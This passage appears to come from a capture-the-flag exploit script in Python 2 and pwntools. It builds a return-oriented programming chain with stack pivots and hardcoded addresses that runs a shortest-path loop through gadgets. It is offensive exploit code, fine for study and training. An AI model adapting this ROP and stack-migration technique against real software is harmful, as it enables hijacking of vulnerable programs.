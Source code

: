 ```python
            )

print hex(len(store_map(1,1,1)))
# 0x60A080
p = flat(
    0x666666, 0x20,
    0, add_rsp_148, # 0x60a090
    0, # 0x60a0a0 i
    0, # 0x60a0a8 j
    0, # 0x60a0b0 k

    0, # 0x60a0b8 a1
    0, # 0x60a0c0 a2
    0, # 0x60a0c8 a3

    0, # 0x60a0d0 b1
    0, # 0x60a0d8 b2
    0, # 0x60a0e0 b3

    0, # 0x60a0e8 b1
    0, # 0x60a0f0 b2
    0, # 0x60a0f8 n

    # 0x60a100
    # branch table
    #0x2222222, 0x1111111
    ret, add_rsp_418
)
p = p.ljust( 0x168 , '\0' )

p += flat(
    load( n , wd ),
    sub( n , n , 1 , c = 1 ),


    store_long( i , 0 ), # 0x60a260
    store_long( j , 0 ), # 0x60a288
    store_long( k , 0 ), # 0x60a2b0
                         # 0x60a2d8

    read_map( a1 , j , k ),
    read_map( a2 , j , i ),
    read_map( a3 , i , k ),
    add( a2 , a2 , a3 ),    # a1 = m[j][k] , a2 = m[j][i] + m[i][k]


    br( a1 , a2 ), #  m[j][k] < m[j][i] + m[i][k] branch
    store_map( j , k , a2 ), #m[j][k] = m[j][i] + m[i][k],
    p64(ret) * ( (0x418 - len( store_map(0,0,0) )) / 8 ),

    add( k , k , 1 , c = 1 ),
    br( n , k ),
    migrate( 0x60a2d8 ),
    p64(ret) * ( (0x418 - len( migrate(0) )) / 8 ),

    add( j , j , 1 , c = 1 ),
    br( n , j ),
    migrate( 0x60a2b0 ),
    p64(ret) * ( (0x418 - len( migrate(0) )) / 8 ),

    add( i , i , 1 , c = 1 ),
    br( n , i ),
    migrate( 0x60a288 ),
```